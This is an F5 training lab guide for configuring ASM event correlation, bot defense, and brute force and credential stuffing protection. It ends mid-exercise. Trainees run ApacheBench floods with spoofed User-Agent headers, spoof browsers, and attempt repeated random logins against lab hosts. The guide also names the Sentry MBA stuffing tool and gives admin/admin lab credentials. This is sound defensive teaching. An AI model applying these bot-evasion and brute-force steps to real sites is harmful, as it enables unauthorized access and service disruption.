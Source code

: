 ASM Lab Day - Vancouver

ASM – Advanced Mitigation Techniques

Participant Guide

|image0|

    Last Updated: 03/21/2018

©2017 F5 Networks, Inc. All rights reserved. F5, F5 Networks, and the F5
logo are trademarks of F5 Networks, Inc. in the U.S. and in certain
other countries. Other F5 trademarks are identified at f5.com.

Any other products, services, or company names referenced herein may be
trademarks of their respective owners with no endorsement or
affiliation, express or implied, claimed by F5.

These training materials and documentation are F5 Confidential
Information and are subject to the F5 Networks Reseller Agreement. You
may not share these training materials and documentation with any third
party without the express written permission of F5.

Table of Contents
=================

Table of Contents 2

Accessing the Lab 4

Lab 1 – Event Correlation 5

Exercise 1 – Run an Attack and View the Event Correlation Log 5

Lab 2 – Bot Signatures and Proactive Bot Defense 8

Exercise 1 – Bot Signatures 8

Exercise 2 – Using a Custom Bot Signature 11

Exercise 3 – Using Proactive Bot Defense 12

Exercise 4 – Blocking and Validating Suspicious Browsers 14

Lab 3 – Brute Force and Credential Stuffing 17

Exercise 1 – Configure Brute Force Protection 17

Exercise 2 – Blocking Brute Force of a Specific Device ID 20

Exercise 3 – Blocking Brute Force of a Specific IP Address 22

Exercise 4 – Blocking a Distributed Brute Force Attack 25

Exercise 5 – Blocking a Credential Stuffing Attack 29

Lab 4 – Protecting Credentials with F5 DataSafe 31

Exercise 1 – Review and Attack the Login Page 31

Exercise 2 – Review and Configure DataSafe Components 33

Exercise 3 – Testing DataSafe Protection 35

Exercise 4 – ASM Compatibility 36

Optional Lab 1 – Evasion Techniques 37

Exercise 1 – Setup and Determining Vulnerability 37

Exercise 2 – Testing ASM with Evasion Techniques 39

Optional Lab 2 – Protecting JSON Applications 47

Exercise 1 – Review the JSON Application 47

Exercise 2 – Manipulate JSON Request Data 48

Exercise 3 – Blocking Malicious JSON 49

Exercise 4 – ASM Content Profiles 51

Exercise 5 – JSON Format Validation 53

Optional Lab 3 – Cross Site Request Forgery Protection 55

Exercise 1 – Review the CSRF Attack Page 55

Exercise 2 – Configure CSRF Protection and Attack a Protected URL 56

*
*

Accessing the Lab

Task 1 – Access the Training Lab
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You will be given a Lab Access Code and Student ID.

-  Visit https://training.f5agility.com/<Lab-Access-Code>/<Student-ID>/

|image1|

-  If the VM’s have not been started, click “Start” in the upper right
   corner.

    |image2|

-  When the environment has finished starting, you can access the
   Jumphost by clicking the rdp link and the BIG-IP via the https link.
   The credentials for either are as follows:

   -  Username: admin

   -  Password: admin

Lab 1 – Event Correlation

The purpose of this lab is to show the significant enhancements to ASM
Event Correlation in 13.1. You will run a script to simulate various
attacks. You will review these attacks in both the ASM Request log and
the Event Correlation screen.

Exercise 1 – Run an Attack and View the Event Correlation Log
=============================================================

Task 1 – Open the ASM Event Correlation Page
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, open the **Security > Event Logs >
   Application > Event Correlation** page.

You may already see some events from the previous exercises. Do NOT
select these for now, you can view them later.

-  Set the page to **Auto Refresh every 10 seconds**.

   |image3|

The **Event Correlation** page begins refreshing every 10 seconds.
Notice the blue countdown timer in the top right of the screen

Task 2 – Run the Attack Script
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open a command prompt move to the following location.

cd Desktop

-  Run the attack using the following command:

bash ec\_incidents\_all\_v1.sh

|image4|

The attack will begin running. Let it run for several seconds before
moving to the next task.

Task 3 – Review the Event Correlation Page – Patience required 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, review the **Event Correlation** page.

**→NOTE:** Do not select one of the incidents in the left panel; it will
stop auto refreshing the page. If that happens simply select the
incident again and the countdown timer will begin again.

It will take a couple minutes for the ASM event correlation to correlate
the individual requests in the log. After several refreshes you should
begin to see a few events.

-  Watch – DO NOT SELECT - the two **Malicious Session** – **Malicious
   Repetitive Access** events. Watch as these will change as the event
   correlation engine sees more violations from one of these two IP
   addresses.

-  After another few refreshes you will see even more events. After
   about 4 or 5 minutes you should have around 30 events listed.

   |image5|

| Notice that one of the **Malicious Sessions** has moved to the top of
  the list and now reads
| **Malicious Repetitive Access and more**.

Task 4 – Review Event Correlation Details
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  | Each incident on the **Event Correlation** page has an Incident
     type and an incident sub-type. For example there are several
     incidents with the type of **Vulnerability Scan**, but different
     sub-types, such as
   | **IBM Security AppScan Vulnerability Scan**, **Webinspect
     Vulnerability Scan**, and
   | **Qualys Vulnerability Scan**.

   |image6|

-  Select the top **Malicious Session** incident to view more details,
   and then click the **All Details** button.

-  Select the **Incident Subtype** list to see how many incident
   subtypes were sent in this malicious session.

   |image7|

-  Examine the other information on the **All Details** page.

Questions:

How long did this malicious session last?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

How many different requests were involved in the malicious session?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

How many of these requests were blocked?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

How many of these requests were blocked?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Without the new event correlation feature it would be difficult would to
dig through all of the requests in the ASM request log and identify and
correlate the various attacks with which this IP address was involved.

In previous version ASM only correlated events from the same IP address
or to the same URL. ASM will now correlate based on IP address,
DeviceID, and various attack types.

-  Click the **Malicious Session** incident to deselect it.

| If enough time has passed, the **Incident Type Volume Grap**\ h will
  have updated to show you a
| high-level overview of the incident types.

-  Close the command prompt.

Lab 2 – Bot Signatures and Proactive Bot Defense

The purpose of this lab is to help you understand the bot detection and
mitigation features in application layer DoS Profiles. Also, to see the
new bot logging features in 13.0. You will detect and block bots with
increasing sophistication.

Exercise 1 – Bot Signatures 
============================

Task 2 – Configure a DoS Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open Chrome and access the BIG-IP system at https://10.1.1.8. (NOTE:
   To make the exercises easier to perform we recommend restoring the
   Chrome window so it doesn’t take up the entire screen.)

-  In the Configuration Utility, open the **Security** > **DoS
   Protection > DoS Profiles** page and click **Create**.

-  Name the new profile **Bots-Lab** and click **Finished**.

-  Click **Bots-Lab**, and then open the **Application Security** page.

   |image8|

-  On the **General Settings** page click **Disabled** and then select
   the **Enabled** checkbox.

-  Click **TPS-based Detection**, then for **Operation Mode** select
   **Off**.

-  Click **Bot Signatures**, then click **Disabled**, then select the
   **Enabled** checkbox, and then click **Update**.

   |image9|

-  Open the **Virtual Server List** page and click
   **DVWA\_protected\_virtual**.

This virtual server is configured for **10.1.10.56** and listens on port
**80**.

**→NOTE:** The virtual server uses HTTP instead of HTTPS because one of
the DoS attack tools will be using don’t support SSL.

-  Open the virtual server **Security > Policies** page.

   |image10|

-  From the **DoS Protection Profile** list select **Enabled** and leave
   **Bots-Lab** selected and click **Update**.

Notice that there is a log publisher configured named
**ASM-Bot-DoS-Log-All**.

-  Open the **Security > Event Logs > Logging Profiles** page and click
   **ASM-Bot-DoS-Log-All**.

Notice this log profile includes **Application Security**, **Dos
Protection**, and **Bot Defense** logging.

Task 3 – Launch and Observe a Simple Bot Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open a command prompt move to the following location.

cd C:\\xampp\\apache\\bin

|image11|

-  Use Apache Bench to attack the website using the following command:

ab -c 10 -n 10 -r http://10.1.10.56/

ApacheBench (ab) is a single-threaded command line computer program for
measuring the performance of HTTP web servers. The -c switch identifies
the number of multiple requests to make at one time. The -n switch
identifies the total number of requests, and the -r switch prevents the
command from exiting on socket receive errors.

-  In the Configuration Utility, navigate to **Security** > **Event Logs
   > Bot Defense** and right-click on **Requests**, and then select
   **Open Link in New Tab**.

**→NOTE:** When viewing the **Bot Defense** log you will need to scroll
to the right to see some of the fields.

-  In the new tab, examine the **Bot Defense** log.

   |image12|

In the Bot Defense logs we can see exactly WHO was blocked, HOW they
were blocked, and WHY they were blocked. This level of logging was only
available via iRules in previous versions and gives much greater
visibility into Bot Defense mitigations.

This is a “simple bot” and the DoS Profile could identify and block the
bot based on its signature, “ab” in the User-Agent HTTP header. In the
next exercise, we will change the User-Agent header and see if the DoS
Profile can block it.

Exercise 2 – Using a Custom Bot Signature 
==========================================

Task 1 – Launch an Unknown Bot Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the command prompt copy and paste the following command:

ab -c 10 -n 10 -r -H "User-Agent: kalakalazoomzoom" http://10.1.10.56/

**→NOTE:** Make sure to issue the entire command on one line.

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

Food for Thought:

Was the attack blocked? Why or why not?

Task 2 – Create a New Bot Category and Bot Signature
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Create a new bot signature category, and then add a new bot signature
into the new category.

-  Navigate to **Security > Options > DoS Protection** and right-click
   on **Bot Signatures List**, and then select **Open Link in New Tab**.

-  In the new tab click **Create**.

-  Create a new bot signature using the following information, and then
   click **Create**, and then close the new tab. (NOTE: Copy and paste
   the string value.)

+-----------------------------+--------------------+
| **Name**                    | kalakalazoomzoom   |
+=============================+====================+
| **Category**                | DoS Tool           |
+-----------------------------+--------------------+
| **User-agent > contains**   | kalakalazoomzoom   |
+-----------------------------+--------------------+
| **Risk**                    | Medium             |
+-----------------------------+--------------------+

-  In the command prompt re-run the following command:

ab -c 10 -n 10 -r -H "User-Agent: kalakalazoomzoom" http://10.1.10.56/

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

   |image13|

The request was blocked because it matched the new custom signature.

Food for Thought:

| What if the script or bot uses a legitimate user agent string, such
  as:
| “Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101
  Firefox/40.1”?

| We can’t block using a signature or we’d block every legitimate
  browser using this browser
| or OS. How do we block these bots without using a signature?

Exercise 3 – Using Proactive Bot Defense 
=========================================

Task 1 – Enable Proactive Bot Defense protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Proactive Bot Defense detects bots and scripts, and prevents them from
accessing the site. It may be used to prevent DDoS, Web Scraping, and
Brute Force attacks.

-  | Navigate to **Security** > **DoS Protection** and right-click on
     **DoS Profiles**, and then
   | select **Open Link in New Tab**.

-  In the new tab click **Bots-Lab**, and then open the **Application
   Security** page.

-  Click **Proactive Bot Defense**, then click **Off**, then change
   **Operational Mode** to **Always**.

-  For **Block requests from suspicious browsers** click **Edit**.

-  Clear the **Block Suspicious Browsers** checkbox, and then click
   **Update**.

   |image14|

-  Change the Grace period to 60 seconds

   |image15|

-  In the command prompt copy and paste the following command, and then
   close the command prompt:

ab -c 10 -n 10 -r -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64;
rv:40.0) Gecko/20100101 Firefox/40.1" http://10.1.10.56/

**→NOTE:** Make sure to issue the entire command on one line and within
60 seconds from the dos profile update.

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

   |image16|

Question:

Which mitigation is being used?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

The DoS profile responded to the “bot” with a ‘simple challenge’ –
during the grace period ASM sends a redirect challenge (sending a
redirect message with a cookie). Note the **Reason** field. This field
gives descriptive explanation for why a challenge was (or was not)
possible. Proactive Bot Defense stops simple bots, even if they are
trying to impersonate legitimate browsers with a valid User-Agent
header, by responding with a JavaScript challenge.

-  Wait 60 seconds to let the grace timer expire. Then run the command
   again

ab -c 10 -n 10 -r -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64;
rv:40.0) Gecko/20100101 Firefox/40.1" http://10.1.10.56/

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

   |image17|

Question:

Which mitigation is being used?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Open a browser and go to http://10.1.10.56/

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

   |image18|

Question:

Which mitigation is being used?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Food for Thought:

What about JavaScript enabled bots or headless browsers like PhantomJS?
These bots are capable of processing JavaScript and will pass the
JavaScript challenge. How do we mitigate these types of bots?

Exercise 4 – Blocking and Validating Suspicious Browsers 
=========================================================

Task 1 – Edit the Proactive Bot Defense Settings
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the **DoS Profile** tab, click **Proactive Bot Defense**, then for
   **Block requests from suspicious browsers** click **Edit**.

-  Select the **Block Suspicious Browsers** checkbox, and then click
   **Update**.

   |image19|

-  Close the **Dos Profile** tab.

Task 2 – Access the Application using Suspicious Browsers
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open a **New** **incognito** **window** in Chrome.

   |image20|

-  Open the Chrome customization icon.

   |image21|

-  Open **More tools > Extensions**.

-  Click **Get more extensions**.

-  Search for **user agent switcher**, then for **User-Agent Switcher
   for Chrome** click **Add to Chrome**.

   |image22|

**→NOTE:** Make sure to use the User-Agent Switcher in the above image.

-  Click **Add extension**.

-  | Close the tab, and on the **Extensions** tab click for **User-Agent
     Switcher for Chrome** select the
   | **Allow in incognito** checkbox, and then close the **Extensions**
     tab.

-  Open a Chrome **incognito** window, and then click the **Chrome UA
   Spoofer** button.

   |image23|

-  Select **Safari > Mac Safari 7**.

   |image24|

This will force Chrome to send a User-Agent header that looks like it’s
coming from Safari on an Apple computer, even though we are actually
using Chrome on a Windows computer.

-  Access http://10.1.10.56.

   |image25|

You are presented with a CAPTCHA challenge.

-  Enter the CAPTCHA challenge (not case sensitive) and click **submit**
   to view the DVWA login page, and then close the window.

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

Proactive Bot Defense initially responded with the JavaScript challenge
which the browser (and any JS-enabled bot) could pass. The DoS profile
then sent the client capabilities challenge to validate the browser was
really Safari running on Mac OS X (since this is what the user-agent
header indicated). The response received by the BIGIP system is given a
score.

**Client Capabilities Scores**

| **0 – 59** = Browser = Allowed
| **60 – 99** = Suspicious = CAPTCHA Challenge
| **100** = BOT = Blocked

The browser received too high of a score and so was presented with the
CAPTCHA Challenge.

The CAPTCHA challenge will block even JS-enabled bots (AKA headless
browsers) but still let legitimate human users access the site.
Additionally, the CAPTCHA will only be presented if/when a browser does
not pass the capabilities challenge. Most browsers will pass this
challenge with a low enough score that most users will NOT even see the
CAPTCHA.

-  | Open a new **incognito** window and click the **Chrome UA Spoofer**
     button and select
   | **Internet Explorer > Internet Explorer 6**, and then access
     http://10.1.10.56.

-  When you begin receiving the error responses, close the window.

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

   |image26|

The request was blocked due to coming from a suspicious browser No
CAPTCHA challenge was presented.

-  Open a new **incognito** window and click the **Chrome UA Spoofer**
   button and select **Chrome > Default**, and then access
   http://10.1.10.56, and then close the DVWA page.

-  In the Configuration Utility, on the **Bot Defense > Requests** tab
   reload the page.

   |image27|

The request from Chrome passed the browser challenge and no CAPTCHA
challenge was presented.

-  Close the **Bot Defense > Requests** tab.

Lab 3 – Brute Force and Credential Stuffing

The purpose of this lab is to help you understand the significant
changes to the brute force detection and mitigation features and the
addition of known leaked credential stuffing detection in 13.1. You will
detect and block authentication attacks with increasing sophistication
and distribution. You will also use Sentry MBA to perform a credential
stuffing attack and then block it.

Exercise 1 – Configure Brute Force Protection 
==============================================

Task 1 – Review the Login Page to be Protected
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Use Chrome to access http://hackazon.f5demo.com/user/login

-  Attempt to log in with your first name as **Username** any random
   string as **Password**.

-  Right-click inside the **Username or Email** field and select
   **Inspect Element**.

Question:

What is the **name** value for this field?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Right-click inside the **Password** field and select **Inspect**.

Question:

What is the **name** value for this field?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

We will use this information to define the login page in the ASM policy.
We’ll then configure brute force and credential stuffing protections for
the login page

-  Close the developer tools window.

-  | Attempt to log in10 more times with your first name as **Username**
     and different random strings
   | as **Password**.

Questions:

What text displays on the failed login page?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Were you able to try as many passwords as you wanted?
\_\_\_\_\_\_\_\_\_\_\_\_\_

You would be able to brute force this page by attempting thousands of
password combinations.

-  Close Chrome.

Task 2 – Define the Login Page
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open the **Application Security > Sessions and Logins > Login Pages
   List** page and click **Create**.

-  For **Login URL** leave **Explicit > HTTP** selected and start typing
   **/user/login**, and then select **/user/login** once it displays.

-  Configure the login page using the following information, and then
   click **Create**.

+-------------------------------------------------------+--------------------------------------+
| **Authentication Type**                               | HTML Form                            |
+=======================================================+======================================+
| **Username Parameter Value**                          | username                             |
+-------------------------------------------------------+--------------------------------------+
| **Password Parameter Value**                          | password                             |
+-------------------------------------------------------+--------------------------------------+
| **A string that should NOT appear in the response**   | Username or password are incorrect   |
+-------------------------------------------------------+--------------------------------------+

|image28|

-  Save and apply the policy

Task 3 – Register a username and test 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open http://hackazon.f5demo.com/user/register

-  Register a new username –

   -  Username: username1

   -  Password: username1

-  Open a new chrome window, log in with the new credentials and verify
   you are able to log in.

-  Open event log, clear the ‘illegal request’ filter and look for your
   request.

|image29|

Task 4 – Configure Brute Force Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  | Open the **Application Security > Anomaly Detection > Brute Force
     Attack Prevention** page and
   | click **Create**.

-  For **Login Page** select **[HTTP]/user/login**.

-  In the **Source-based Brute Force Protection** section configure the
   following:

+-----------------------------------------------+---------------------------------+
| **Detection Period**                          | 10 Minutes                      |
+===============================================+=================================+
| **Maximum Prevention Duration**               | 2 Minutes                       |
+-----------------------------------------------+---------------------------------+
| **Username**                                  | After 3 failed login attempts   |
+-----------------------------------------------+---------------------------------+
| **Device ID**                                 | Never                           |
+-----------------------------------------------+---------------------------------+
| **IP Address**                                | Never                           |
+-----------------------------------------------+---------------------------------+
| **Client Side Integrity Bypass Mitigation**   | Never                           |
+-----------------------------------------------+---------------------------------+
| **CAPTCHA Bypass Mitigation**                 | Never                           |
+-----------------------------------------------+---------------------------------+

-  In the **Distributed Brute Force Protection** section configure the
   following, and then click **Create**.

+-----------------------------------+--------------+
| **Detection Period**              | 15 Minutes   |
+===================================+==============+
| **Maximum Prevention Duration**   | 60 Minutes   |
+-----------------------------------+--------------+
| **Detect Distributed Attack**     | Never        |
+-----------------------------------+--------------+
| **Detect Credential Stuffing**    | Never        |
+-----------------------------------+--------------+

-  Click **Apply Policy** and then **OK**.

Exercise 2 – Blocking Brute Force of a Specific Device ID 
==========================================================

Task 1 – Enable Brute Force Device ID Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the **Brute Force Attack Prevention** tab click **[HTTP]
   /user/login**.

-  For **Device ID** select the **After** option and leave the default
   of **3** failed login attempts.

   |image30|

-  Click **Save**, then click **Apply Policy** and then **OK**.

Task 2 – Enter Different Credentials in the Hackazon Login Page
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Use a new Chrome window to access
   http://hackazon.f5demo.com/user/login.

-  Reload the page 15 times.

This is because ASM must “qualify” the URL before injecting the Device
ID JavaScript. After it’s qualified you should see a blank page for a
second.

-  Attempt to log in with any value for **Username** any random string
   as **Password**.

-  | Continue to attempt to log in with different values for
     **Username** and different random strings
   | as **Password**.

**→NOTE:** It’s important that you use different usernames for each
login attempt.

Question:

| How many times were you able to attempt to login before getting the
  CAPTCHA challenge?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Complete the CAPTCHA challenge.

You are returned to the login page.

-  Try one more login attempt with a random username and password.

You are immediately presented with the CAPTCHA challenge.

-  Complete the CAPTCHA challenge, and then close Chrome.

Task 3– Review Requests in the ASM Log
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

-  Select the most recent blocked log entry.

**→NOTE:** If you do not see a new blocked request then you may have not
completed the CAPTCHA. CAPTCHA-challenged requests are not logged until
completed. If this is the case, return to the Hackazon login page and
complete the CAPTCHA. If you did not complete the CAPTCHA soon enough it
may STILL not be logged. In that case, try additional logins until you
are blocked. However, you may receive the blocking page rather than the
CAPTCHA.

-  Click **Brute Force: Maximum login attempts are exceeded**.

Questions:

What is the **Mitigated Action**? \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

What is the **Device ID**?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  View the first 15 log entries and examine the **Device ID** value on
   the **All Details** page.

Question:

| Why don’t the first 10 or so log entries have a **Device ID** value?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Is the **Device ID** the same for the rest of the log entries?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

In many cases it is not possible or desirable to inject the JavaScript
necessary to collect a Device ID. In that case ASM can still detect this
type of attack by IP address.

-  Select the checkbox to select all the log entries, and then click
       **Delete Requests**.

Exercise 3 – Blocking Brute Force of a Specific IP Address 
===========================================================

Task 1 – Enable Brute Force IP Address Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the **Brute Force Attack Prevention** tab click **[HTTP]
   /user/login**.

-  For **Device ID** select the **Never** option.

-  For **IP Address** select the **After** option and use **7** failed
   login attempts.

If the attacker can bypass the CAPTCHA challenge, we want to completely
block the attacker rather than continuing to send CAPTCHA challenges.
However, we want to make it very difficult for the attacker to know he
is getting blocked, so we will present him with a honeypot page that
exactly mimics the Hackazon failed login screen.

-  For **CAPTCHA Bypass Mitigation**, select the **After** option and
   use **3** failed login attempts.

-  Change the **Action** to **Alarm and Honeypot Page**.

   |image31|

-  Click **Save**, then click **Apply Policy** and then **OK**.

Task 2 – Review the Honeypot Page Configuration
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Navigate to **Security > Application Security > Policy** and
   right-click on **Response Page**, and then select **Open Link in New
   Tab**.

-  In the new tab, on the left menu select **Failed Login Honeypot**.

This custom response page has already been configured to exactly mimic
the Hackazon failed login page with a slight modification.

**→NOTE:** A couple of minor changes have been made to the page so that
you MAY be able to see when you are getting this Honeypot page. See if
you can tell what those changes are once you start the attack in the
next step.

-  Close the **Response Pages** tab.

Task 3 – Enter Different Credentials in the Hackazon Login Page
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Use a new Chrome window to access
   http://hackazon.f5demo.com/user/login.

-  Reload the page 15 times.

-  Attempt to log in with any value for **Username** any random string
   as **Password**.

-  | Continue to attempt to log in with different values for
     **Username** and different random strings
   | as **Password**.

Question:

| How many times were you able to attempt to login before getting the
  CAPTCHA challenge?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Complete the CATPTCH challenge.

You are returned to the login page.

-  Attempt additional logins and complete the CAPTCHA challenges. See if
   you can identify when you are receiving the honeypot page. (HINT:
   Watch the username field.)

-  Close Chrome.

Task 4– Review Requests in the ASM Log
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, on the **Application > Requests** page
   select **Refresh**.

There should be several legal requests followed by some illegal
requests, and then some blocked requests. The number of blocked requests
depends on how long it took you to realize you were receiving the
honeypot page.

-  Select the first illegal log entry |image32| (the lowest in the list)
       and view the **All Details** page.

Questions:

What is the **Request Status**? \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

| Why was the CAPTCHA challenged request not reported as blocked?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Click **Brute Force: Maximum login attempts are exceeded**.

Questions:

What is the **Mitigated Action**? \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

What is the **Client IP Address**?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Select the most recent blocked |image33|\ log entry and view the
   **All Details** page.

Questions:

What is the **Request Status**? \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Why does this request report as blocked?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Why is the **Login Result** unknown?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Click **Brute Force: Maximum login attempts are exceeded**.

Questions:

What is the **Mitigated Action**? \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Why has the **Mitigation Action** changed?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

What is the **Client IP Address**?
